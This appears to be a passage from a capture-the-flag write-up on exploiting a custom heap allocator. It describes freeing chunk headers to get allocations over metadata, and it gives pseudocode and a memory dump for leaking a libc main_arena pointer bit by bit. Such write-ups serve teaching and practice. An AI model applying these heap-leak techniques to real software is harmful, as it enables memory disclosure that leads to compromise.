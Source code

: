 ### Header modification
The headers for each chunks are stored as the first element of their chunks. As
such, it is possible to free them, which will clear their allocation bit. The
next allocation in this chunk will return the address of the chunk's metadata.

## Exploitation
### Memory leak
The memory leak vulnerability can be used to leak a pointer to the libc's
`main_arena` structure.

The first step is to make a pointer overlap with the `bitmap` field.

The following sequence of actions :
```
idx = add("a" * 0x10)
add("a" * 0x20)
del(idx)

add("b" * 0x10)
```

... will result in the following memory layout :
```c
/*
0x00007f0300000010 0x00007ffff7f9ca60
0x6262626262626262 0x6262626262626262
*/

struct header h = {
	.size   = 0x10,
	.bitmap = {
		0x03, 0x7F, 0x00, 0x00,
		0x60, 0xCA, 0xF9, 0xF7, 0xFF, 0x7F, 0x00, 0x00,
	};
};
```

Each individual bit of the bitmap can be leaked by allocating objects of size
`0x10` : the ID number returned by the application will skip bits that are
already set.

The following code can be used to leak the 6 bytes that contain a libc address :
```
leak = 0xFFFFFFFF

do idx = add("a")
while idx < 8 * 4

while idx < 8 * (4 + 6):
	leak ^= 1 << (idx - 8 * 4)
	idx = add("a")
```
